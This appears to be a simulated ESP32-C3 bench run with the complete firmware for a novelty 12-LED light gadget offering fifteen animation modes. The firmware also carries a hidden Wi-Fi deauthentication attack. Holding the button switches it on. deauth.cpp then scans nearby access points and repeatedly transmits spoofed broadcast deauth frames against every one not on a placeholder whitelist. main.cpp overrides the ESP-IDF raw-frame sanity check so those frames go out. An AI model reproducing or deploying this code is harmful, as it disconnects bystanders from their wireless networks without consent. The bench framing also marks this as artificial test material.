
Bench run of a program on a simulated ESP32-C3. On the bench: 12 RGB LEDs in strip order, left to right, the last lines printed to the serial monitor. The test bench sets the inputs (shaded band); at power-on: GPIO 10 (MODE_SELECT) HIGH. Dim RGB values are drawn brighter than linear; a WiFi scan finds three made-up networks; random numbers use the default seed unless the program sets one.

Above: at 1.91 s.
3.4 s: GPIO 10 (MODE_SELECT) pulled LOW for 0.15 s
At 3.86 s:

4.1 s: GPIO 10 (MODE_SELECT) pulled LOW for 1 s
5.7 s: GPIO 10 (MODE_SELECT) pulled LOW for 0.15 s
At 6.2 s:

6.4 s: GPIO 10 (MODE_SELECT) pulled LOW for 3.2 s
At 9.6 s:

11.1 s: GPIO 10 (MODE_SELECT) driven LOW
14.1 s: GPIO 10 (MODE_SELECT) pulsed HIGH 2 times (0.12 s each, 0.3 s apart)
At 14.58 s:


The program:

main.cpp
```cpp
// (licence header left out)
#include <Arduino.h>
#include <Adafruit_NeoPixel.h>
#include <WiFi.h>
#include "esp_wifi.h"
#include "modes.h"
#include "deauth.h"

#define LED_PIN 3
#define LED_COUNT 12
#define MODE_SELECT 10

Adafruit_NeoPixel strip(LED_COUNT, LED_PIN, NEO_GRB + NEO_KHZ800);
uint8_t currentMode = 0;
bool buttonPressed = false;
bool inDeauthMode = false;
#define HOLD_DURATION 2500

#define MODE(fn) {fn, #fn}

struct Mode {
  void (*func)();
  const char* name;
};

const Mode modes[] = {
  MODE(nyanClassic),
  MODE(rainbow),
  MODE(nyanTrail),
  MODE(sparkle),
  MODE(dualPulse),
  MODE(theaterChase),
  MODE(fireFlicker),
  MODE(matrixRain),
  MODE(fedMode),
  MODE(breathingCyan),
  MODE(strobe),
  MODE(colorWipe),
  MODE(glitch),
  MODE(rainbowChase),
  MODE(waveform)
};

const uint8_t MODE_COUNT = sizeof(modes) / sizeof(modes[0]);

void checkButton() {
  static bool lastState = HIGH;
  static unsigned long pressStartTime = 0;
  static bool holdDetected = false;
  bool reading = digitalRead(MODE_SELECT);

  if (reading != lastState) {
    if (reading == LOW) {
      pressStartTime = millis();
      buttonPressed = true;
      holdDetected = false;
    } else {
      if (buttonPressed && !holdDetected && !inDeauthMode) {
        unsigned long pressDuration = millis() - pressStartTime;

        if (pressDuration < HOLD_DURATION) {
          currentMode = (currentMode + 1) % MODE_COUNT;
          Serial.print("Mode: ");
          Serial.println(modes[currentMode].name);
        }
      }

      buttonPressed = false;
      holdDetected = false;
    }
    lastState = reading;
  }

  if (reading == LOW && buttonPressed && !holdDetected) {
    if (millis() - pressStartTime >= HOLD_DURATION) {
      holdDetected = true;

      if (inDeauthMode) {
        inDeauthMode = false;
        Serial.println("Exiting deauth mode");
        resetDeauthState();
      } else {
        inDeauthMode = true;
        Serial.println("Entering deauth mode");
        initDeauthMode();
      }
    }
  }
}

// Function to bypass frame validation (required for raw 802.11 frames)
extern "C" int ieee80211_raw_frame_sanity_check(int32_t arg, int32_t arg2, int32_t arg3) {
  (void)arg;
  (void)arg2;
  (void)arg3;
  return 0;
}

void setup() {
  // Short delay for entering bootloader on RST
  delay(1000);

  Serial.begin(115200);

  pinMode(MODE_SELECT, INPUT_PULLUP);

  strip.begin();
  strip.setBrightness(BRIGHTNESS);
  strip.clear();
  strip.show();

  WiFi.mode(WIFI_AP);
  esp_wifi_set_promiscuous(true);

  bootSequence();
}

void loop() {
  checkButton();

  if (inDeauthMode) {
    deauthMode();
  } else {
    modes[currentMode].func();
  }
}
```

deauth.h
```cpp
// (licence header left out)
#pragma once

#include <Arduino.h>
#include <WiFi.h>
#include "esp_wifi.h"

void initDeauthMode();
void deauthMode();
void resetDeauthState();
```

modes.h
```cpp
// (licence header left out)
#pragma once

#define BRIGHTNESS 20
#define STRIP_START 0
#define STRIP_END 9
#define EYE_LEFT 10
#define EYE_RIGHT 11
#define B(x) (BRIGHTNESS * (x))

void bootSequence();
void nyanClassic();
void rainbow();
void nyanTrail();
void sparkle();
void dualPulse();
void theaterChase();
void fireFlicker();
void matrixRain();
void fedMode();
void breathingCyan();
void strobe();
void colorWipe();
void glitch();
void rainbowChase();
void waveform();
```

deauth.cpp
```cpp
// (licence header left out)
#include <Arduino.h>
#include <Adafruit_NeoPixel.h>
#include <WiFi.h>
#include "esp_wifi.h"
#include "deauth.h"
#include "modes.h"

extern Adafruit_NeoPixel strip;

#define MAX_APS 20
#define SCAN_INTERVAL 30000
#define DEAUTH_INTERVAL 5

struct AP_Info {
  String ssid;
  uint8_t bssid[6];
  int channel;
};

static AP_Info apList[MAX_APS];
static int apCount = 0;
static unsigned long lastScanTime = 0;
static unsigned long lastDeauthTime = 0;
static int currentApIndex = 0;

static uint8_t deauthFrame[28] = {
  0xC0, 0x00, 0x3A, 0x01, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
  0xFF, 0xFF, 0x00, 0x00, 0x01, 0x00
};

// Modify to whitelist network SSIDs
const char *ssidWhitelist[] = {
  "whitelistExample1",
  "whitelistExample2"
};

const int whitelistCount = sizeof(ssidWhitelist) / sizeof(ssidWhitelist[0]);

inline bool isWhitelisted(const String &s) {
  for (int i = 0; i < whitelistCount; i++) {
    if (s == ssidWhitelist[i])
      return true;
  }
  return false;
}

void sendDeauth(const AP_Info &ap) {
  esp_wifi_set_channel(ap.channel, WIFI_SECOND_CHAN_NONE);
  memcpy(deauthFrame + 10, ap.bssid, 6);
  memcpy(deauthFrame + 16, ap.bssid, 6);
  for (int i = 0; i < 10; i++) {
    esp_wifi_80211_tx(WIFI_IF_AP, deauthFrame, sizeof(deauthFrame), false);
  }
}

void performScan() {
  for (int i = STRIP_START; i <= STRIP_END; i++) {
    strip.setPixelColor(i, strip.Color(0x40, 0, 0));
  }
  strip.setPixelColor(EYE_LEFT, strip.Color(0, 0, 0x40));
  strip.setPixelColor(EYE_RIGHT, strip.Color(0, 0, 0x40));
  strip.show();

  apCount = 0;
  int n = WiFi.scanNetworks(false, true);

  if (n > 0) {
    for (int i = 0; i < n && apCount < MAX_APS; i++) {
      String ssid = WiFi.SSID(i);
      if (!ssid.length() || isWhitelisted(ssid)) continue;
      apList[apCount].ssid = ssid;
      memcpy(apList[apCount].bssid, WiFi.BSSID(i), 6);
      apList[apCount].channel = WiFi.channel(i);
      apCount++;
    }
  }

  WiFi.scanDelete();

  if (apCount > 0) {
    Serial.print("Scanned: ");
    Serial.print(apCount);
    Serial.println(" APs");
    for (int i = 0; i < apCount; i++) {
      Serial.print("  ");
      Serial.println(apList[i].ssid);
    }
  }
}

void initDeauthMode() {
  apCount = 0;
  currentApIndex = 0;
  lastScanTime = 0;
  lastDeauthTime = 0;
  performScan();
  lastScanTime = millis();
}

void resetDeauthState() {
  apCount = 0;
  currentApIndex = 0;
}

void deauthMode() {
  static const uint8_t WAVE_INTERVAL = 60;
  static unsigned long lastWaveUpdate = 0;
  static unsigned long lastBlink = 0;
  static unsigned long nextBlinkDelay = 3000;
  static int wavePosition = 0;
  unsigned long now = millis();

  if (now - lastScanTime >= SCAN_INTERVAL) {
    performScan();
    lastScanTime = now;
    currentApIndex = 0;
  }

  if (now - lastDeauthTime >= DEAUTH_INTERVAL && apCount > 0) {
    sendDeauth(apList[currentApIndex]);
    currentApIndex = (currentApIndex + 1) % apCount;
    lastDeauthTime = now;
  }

  if (now - lastWaveUpdate >= WAVE_INTERVAL) {
    lastWaveUpdate = now;

    for (int i = STRIP_START; i <= STRIP_END; i++) {
      uint8_t brightness = (sin((i + wavePosition) * 0.6) + 1) * B(6);
      strip.setPixelColor(i, strip.Color(brightness, 0, 0));
    }
    wavePosition++;
  }

  unsigned long elapsed = now - lastBlink;

  if (elapsed >= nextBlinkDelay) {
    lastBlink = now;
    nextBlinkDelay = random(3000, 6000);
  }

  if (elapsed < 50) {
    strip.setPixelColor(EYE_LEFT, strip.Color(0x30, 0, 0));
    strip.setPixelColor(EYE_RIGHT, strip.Color(0x30, 0, 0));
  } else if (elapsed < 100) {
    strip.setPixelColor(EYE_LEFT, strip.Color(0x20, 0, 0));
    strip.setPixelColor(EYE_RIGHT, strip.Color(0x20, 0, 0));
  } else if (elapsed < 150) {
    strip.setPixelColor(EYE_LEFT, strip.Color(0x10, 0, 0));
    strip.setPixelColor(EYE_RIGHT, strip.Color(0x10, 0, 0));
  } else if (elapsed < 200) {
    strip.setPixelColor(EYE_LEFT, 0);
    strip.setPixelColor(EYE_RIGHT, 0);
  } else if (elapsed < 250) {
    strip.setPixelColor(EYE_LEFT, strip.Color(0x10, 0, 0));
    strip.setPixelColor(EYE_RIGHT, strip.Color(0x10, 0, 0));
  } else if (elapsed < 300) {
    strip.setPixelColor(EYE_LEFT, strip.Color(0x20, 0, 0));
    strip.setPixelColor(EYE_RIGHT, strip.Color(0x20, 0, 0));
  } else if (elapsed < 350) {
    strip.setPixelColor(EYE_LEFT, strip.Color(0x30, 0, 0));
    strip.setPixelColor(EYE_RIGHT, strip.Color(0x30, 0, 0));
  } else {
    strip.setPixelColor(EYE_LEFT, strip.Color(0x40, 0, 0));
    strip.setPixelColor(EYE_RIGHT, strip.Color(0x40, 0, 0));
  }

  strip.show();
}
```

modes.cpp
```cpp
// (licence header left out)
#include <Arduino.h>
#include <Adafruit_NeoPixel.h>
#include "modes.h"

extern Adafruit_NeoPixel strip;

void bootSequence() {
  for (int cycle = 0; cycle < 20; cycle++) {
    for (int i = 0; i < 10; i++) {
      int brightness = (sin((i + cycle) * 0.5) + 1) * 40;
      strip.setPixelColor(i, strip.Color(brightness, 0, brightness * 0.8));
    }
    strip.setPixelColor(10, 0x404040);
    strip.setPixelColor(11, 0x404040);
    strip.show();
    delay(50);
  }
  strip.clear();
  strip.show();
  delay(100);
}

static inline void setEyes() {
  static unsigned long lastBlink = 0;
  static unsigned long nextBlinkDelay = 3000;
  unsigned long now = millis();
  unsigned long elapsed = now - lastBlink;

  if (elapsed >= nextBlinkDelay) {
    lastBlink = now;
    nextBlinkDelay = random(3000, 6000);
  }

  if (elapsed < 50) {
    strip.setPixelColor(EYE_LEFT, 0x303030);
    strip.setPixelColor(EYE_RIGHT, 0x303030);
  } else if (elapsed < 100) {
    strip.setPixelColor(EYE_LEFT, 0x202020);
    strip.setPixelColor(EYE_RIGHT, 0x202020);
  } else if (elapsed < 150) {
    strip.setPixelColor(EYE_LEFT, 0x101010);
    strip.setPixelColor(EYE_RIGHT, 0x101010);
  } else if (elapsed < 200) {
    strip.setPixelColor(EYE_LEFT, 0);
    strip.setPixelColor(EYE_RIGHT, 0);
  } else if (elapsed < 250) {
    strip.setPixelColor(EYE_LEFT, 0x101010);
    strip.setPixelColor(EYE_RIGHT, 0x101010);
  } else if (elapsed < 300) {
    strip.setPixelColor(EYE_LEFT, 0x202020);
    strip.setPixelColor(EYE_RIGHT, 0x202020);
  } else if (elapsed < 350) {
    strip.setPixelColor(EYE_LEFT, 0x303030);
    strip.setPixelColor(EYE_RIGHT, 0x303030);
  } else {
    strip.setPixelColor(EYE_LEFT, 0x404040);
    strip.setPixelColor(EYE_RIGHT, 0x404040);
  }
}

void nyanClassic() {
  static const uint8_t INTERVAL = 80;
  static const uint32_t COLORS[6] = {
    0x640000, 0x643200, 0x5A5A00, 0x006400, 0x000064, 0x500050
  };
  static int position = 0;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    strip.setPixelColor(i, COLORS[(i + position) % 6]);
  }
  position = (position + 1) % 6;

  setEyes();
  strip.show();
}

void breathingCyan() {
  static const uint8_t INTERVAL = 18;
  static int brightness = B(1);
  static int direction = 1;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  brightness += direction * 2;
  if (brightness >= B(8) || brightness <= B(1)) {
    direction = -direction;
  }

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    strip.setPixelColor(i, strip.Color(0, brightness * 0.8, brightness));
  }
  setEyes();
  strip.show();
}

void rainbow() {
  static const uint8_t INTERVAL = 35;
  static const uint16_t HUE_STEP = 150;
  static uint16_t hueOffset = 0;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    uint16_t pixelHue = hueOffset + (i * 65536L / 10);
    uint32_t color = strip.ColorHSV(pixelHue, 240, B(9));
    strip.setPixelColor(i, strip.gamma32(color));
  }

  setEyes();
  strip.show();
  hueOffset += HUE_STEP;
}

void nyanTrail() {
  static const uint8_t INTERVAL = 80;
  static const uint32_t COLORS[6] = {
    0x640000, 0x643200, 0x5A5A00, 0x006400, 0x000064, 0x500050
  };
  static int position = 0;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  int clearPixel = (position - 6 + 10) % 10;
  strip.setPixelColor(clearPixel, 0);

  for (int i = 0; i < 6; i++) {
    int pixel = (position - i + 10) % 10;
    strip.setPixelColor(pixel, COLORS[i]);
  }

  setEyes();
  strip.show();
  position = (position + 1) % 10;
}

void sparkle() {
  static const uint8_t INTERVAL = 70;
  static const uint8_t SPAWN_CHANCE = 25;
  static unsigned long lastUpdate = 0;
  static int fade[10] = {0};

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    if (fade[i] > 0) {
      fade[i] -= 20;
      if (fade[i] < 0) fade[i] = 0;
    }
    uint8_t blue = fade[i] * 0.9;
    strip.setPixelColor(i, strip.Color(fade[i], fade[i], blue));
  }

  if (random(100) < SPAWN_CHANCE) {
    fade[random(STRIP_START, STRIP_END + 1)] = B(7);
  }

  setEyes();
  strip.show();
}

void dualPulse() {
  static const uint8_t INTERVAL = 12;
  static int brightness = B(1);
  static int direction = 1;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  brightness += direction * 3;
  if (brightness >= B(7) || brightness <= B(1)) {
    direction = -direction;
  }

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    uint32_t color = (i < 5)
      ? strip.Color(brightness, 0, brightness * 0.6)
      : strip.Color(0, brightness * 0.7, brightness);
    strip.setPixelColor(i, color);
  }

  setEyes();
  strip.show();
}

void theaterChase() {
  static const uint8_t INTERVAL = 150;
  static const uint8_t SPACING = 3;
  static int offset = 0;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    uint32_t color = ((i + offset) % SPACING == 0) ? strip.Color(B(6), 0, B(8)) : 0;
    strip.setPixelColor(i, color);
  }

  setEyes();
  strip.show();
  offset = (offset + 1) % SPACING;
}

void fireFlicker() {
  static const uint8_t INTERVAL = 60;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    uint8_t brightness = random(B(4), B(8));
    strip.setPixelColor(i, strip.Color(brightness, brightness * 0.3, 0));
  }

  setEyes();
  strip.show();
}

void matrixRain() {
  static const uint8_t INTERVAL = 100;
  static const uint8_t SPAWN_CHANCE = 40;
  static int drops[10] = {0};
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    if (drops[i] > 0) {
      drops[i] -= 25;
      if (drops[i] < 0) drops[i] = 0;
    }
    strip.setPixelColor(i, strip.Color(0, drops[i], 0));
  }

  if (random(100) < SPAWN_CHANCE) {
    drops[random(STRIP_START, STRIP_END + 1)] = B(7);
  }

  setEyes();
  strip.show();
}

void fedMode() {
  static const uint8_t INTERVAL = 180;
  static bool state = false;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  state = !state;
  for (int i = STRIP_START; i <= STRIP_END; i++) {
    strip.setPixelColor(i, state ? strip.Color(B(6), 0, 0) : strip.Color(0, 0, B(6)));
  }
  setEyes();
  strip.show();
}

void waveform() {
  static const uint8_t INTERVAL = 90;
  static const float FREQUENCY = 0.5;
  static int position = 0;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    uint8_t brightness = (sin((i + position) * FREQUENCY) + 1) * B(4);
    strip.setPixelColor(i, strip.Color(brightness, 0, brightness * 0.8));
  }

  setEyes();
  strip.show();
  position++;
}

void strobe() {
  static const uint8_t INTERVAL = 80;
  static bool state = false;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  state = !state;
  for (int i = STRIP_START; i <= STRIP_END; i++) {
    strip.setPixelColor(i, state ? strip.Color(B(8), B(8), B(8)) : 0);
  }
  setEyes();
  strip.show();
}

void colorWipe() {
  static const uint8_t INTERVAL = 120;
  static const uint32_t COLORS[3] = {0x640000, 0x006400, 0x000064};
  static int position = 0;
  static int colorIndex = 0;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  strip.setPixelColor(position, COLORS[colorIndex]);
  setEyes();
  strip.show();

  position++;
  if (position > STRIP_END) {
    position = STRIP_START;
    colorIndex = (colorIndex + 1) % 3;
    for (int i = STRIP_START; i <= STRIP_END; i++) {
      strip.setPixelColor(i, 0);
    }
  }
}

void glitch() {
  static const uint8_t INTERVAL = 50;
  static const uint8_t GLITCH_CHANCE = 30;
  static const uint32_t COLORS[4] = {0x780000, 0x007800, 0x000078, 0x780078};
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  for (int i = STRIP_START; i <= STRIP_END; i++) {
    strip.setPixelColor(i, (random(100) < GLITCH_CHANCE) ? COLORS[random(4)] : 0);
  }

  setEyes();
  strip.show();
}

void rainbowChase() {
  static const uint8_t INTERVAL = 80;
  static const uint16_t HUE_STEP = 512;
  static int position = 0;
  static uint16_t hue = 0;
  static unsigned long lastUpdate = 0;

  if (millis() - lastUpdate < INTERVAL) return;
  lastUpdate = millis();

  strip.setPixelColor(position, 0);

  for (int i = 0; i < 4; i++) {
    int pixel = (position + i) % 10;
    strip.setPixelColor(pixel, strip.ColorHSV(hue + (i * 16384), 255, 120));
  }

  setEyes();
  strip.show();
  position = (position + 1) % 10;
  hue += HUE_STEP;
}
```
